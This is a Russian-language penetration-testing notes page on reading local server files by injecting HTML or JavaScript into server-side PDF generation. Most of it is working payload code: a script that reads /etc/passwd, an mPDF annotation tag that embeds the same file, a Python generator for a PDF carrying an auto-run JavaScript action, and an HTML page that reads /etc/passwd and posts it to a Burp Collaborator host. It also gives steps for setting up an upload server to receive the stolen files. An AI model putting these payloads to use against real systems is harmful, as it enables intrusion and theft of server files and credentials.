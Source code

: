 # Local File Read via HTML injection in PDF

## About

Пусть есть возможность влиять на контент PDF. Тогда можно попробовать встроить теги (при условии поддержки JS - теги с Javascript кодом), для того, чтобы на этапе генерации PDF на стороне сервера, встроить содержимое какого-то локального файла - получаем Local File Read.&#x20;

## Exiftool: чем сгенерена PDF

```
➜ files> exiftool dok.pdf

ExifTool Version Number         : 11.85
File Name                       : dok.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2020:08:19 14:42:35+03:00
File Access Date/Time           : 2020:08:19 14:45:35+03:00
File Inode Change Date/Time     : 2020:08:19 14:45:17+03:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Producer                        : iText 2.1.7 by 1T3XT
Modify Date                     : 2020:08:19 14:42:21+03:00
Create Date                     : 2020:08:19 14:42:21+03:00
```

## Анализ структуры PDF

### PDFid

PDFid - просмотр содержимого. Есть в [kali](https://tools.kali.org/forensics/pdfid).

### Peepdf

peepdf - анализ компонентов (написана на Python). Есть в kali.



## Примеры

### Пример 1

src [https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

Встроить такой JS код:

```javascript
<script>
    x=new XMLHttpRequest;
    x.onload=function(){
        document.write(this.responseText)
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script> 
```

### Пример 2

Встраивание тега (в любой параметр). Этой уязвимости подвержена например mPDF 6.0

```markup
<annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

### Useless XSS

js код стартует в своем ограниченном контексте на стороне клиента. Что можно сделать:

* выполнить js код в ограниченном контексте
* сделать open redirect
* сделать get-запрос со стороны клиента

```python
from pathlib import Path


def generate_pdf_xss(path: str):
    PAYLOAD = 'app.alert(app.url); app.alert(app);'
    with Path(path).open(mode='w') as input_stream:
        input_stream.write('''%PDF-1.4
1 0 obj
<<>>
%endobj
trailer
<<
/Root
<</Pages <<>>
/OpenAction
    <<
    /S/JavaScript
    /JS(
        ''' + PAYLOAD + '''
    )
    >>
>>
>>
        ''')


if __name__ == '__main__':
    generate_pdf_xss('xss.pdf')

```

## Tricks

## Анализ векторов, связанных с PDF-файлами

Крутая статья: [https://portswigger.net/research/portable-data-exfiltration](https://portswigger.net/research/portable-data-exfiltration)

### Поднять файловый сервер для приема файлов (File Server)

Поднять файловый сервер для загрузки файлов с уязвимой машины&#x20;

gohttpserver: [https://github.com/codeskyblue/gohttpserver](https://github.com/codeskyblue/gohttpserver) \
Use: `./gohttpserver -r ./files/ —-port 8000 —-upload`&#x20;

Далее с уязвимой тачки спокойненько шлем файлы через formdata

Пример скрипта:

```markup
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Title</title>
    </head>
    <body>
        <script>
            x=new XMLHttpRequest;
            x.onload=function() {
                    
                var formData = new FormData();
                try {
                    formData.append("file", this.response, 'test1.txt');
                    var xhr = new XMLHttpRequest();
                    xhr.open("POST", "http://some.burpcollaborator.net/");
                    xhr.send(formData);
                } catch (e) {
                    document.write(e);
                }

            };
            x.open("GET","file:///etc/passwd");
            x.responseType = "blob"; // as Blob
            x.send();
            
        </script>
    </body>
</html>

```

